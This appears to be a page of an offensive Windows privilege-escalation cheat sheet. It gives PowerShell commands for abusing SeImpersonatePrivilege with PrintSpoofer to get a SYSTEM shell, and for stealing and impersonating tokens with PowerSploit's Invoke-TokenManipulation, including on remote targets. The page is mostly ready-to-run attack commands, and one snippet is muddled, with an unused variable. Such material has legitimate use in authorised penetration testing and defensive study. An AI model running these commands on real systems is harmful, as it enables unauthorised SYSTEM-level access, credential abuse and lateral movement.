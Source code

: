#### Abusing `SeImpersonatePrivilege`
1. Check If `SeImpersonatePrivilege` is Enabled:
To check the current privileges, including `SeImpersonatePrivilege`:
```powershell
whoami /priv
```
2. Abusing `SeImpersonatePrivilege`:
If the user has `SeImpersonatePrivilege`, this can be abused with tools like Juicy Potato, RoguePotato, or PrintSpoofer to escalate privileges to `SYSTEM`. These tools work by exploiting Windows COM behavior and allowing the user to impersonate privileged tokens.

For example, using PowerShell to check impersonation level:
```powershell
$command = "Start-Process powershell -ArgumentList 'whoami'"
Invoke-Command -ScriptBlock { [Security.Principal.WindowsIdentity]::GetCurrent() } | Select-Object -Property AuthenticationType, ImpersonationLevel
```
3. Running PrintSpoofer (as an example for `SeImpersonatePrivilege` abuse):
```powershell
Start-Process -FilePath "PrintSpoofer.exe" -ArgumentList "-i -c powershell.exe"
```
This command executes `PrintSpoofer` and runs a PowerShell process as SYSTEM if the privilege is exploitable.

#### Stealing Tokens (Requires `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege`)
1. Steal a Token (PowerSploit):
If you have the necessary privileges (`SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege`), you can steal a token from another user:
```powershell
Invoke-TokenManipulation -Username <target_user> -ImpersonateUser
```
2. Impersonate a Token (e.g., SYSTEM):
If you want to impersonate the SYSTEM account, run:
```powershell
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
```
3. Create a Process with a Stolen Token:
Once you've stolen a token, you can spawn a new process under that token:
```powershell
Invoke-TokenManipulation -Username <target_user> -CreateProcess "powershell.exe"
```

#### Stealing Tokens from Running Processes
1. Identify Processes for Token Stealing:
To list processes on a remote machine that might have valuable tokens (like SYSTEM or Administrator) for token stealing:
```powershell
Invoke-Command -ComputerName <target> -ScriptBlock { Get-Process -IncludeUserName }
```
	*Note: The `-IncludeUserName` switch requires administrative privileges.*
1. Stealing a Token from a Process:
Using PowerSploit’s `Invoke-TokenManipulation`, you can impersonate a token from a specific process:
```powershell
Invoke-TokenManipulation -ProcessId <process_id> -ImpersonateUser
```
3. Verify Current Token:
You can check the current impersonated token with:
```powershell
[Security.Principal.WindowsIdentity]::GetCurrent()
```
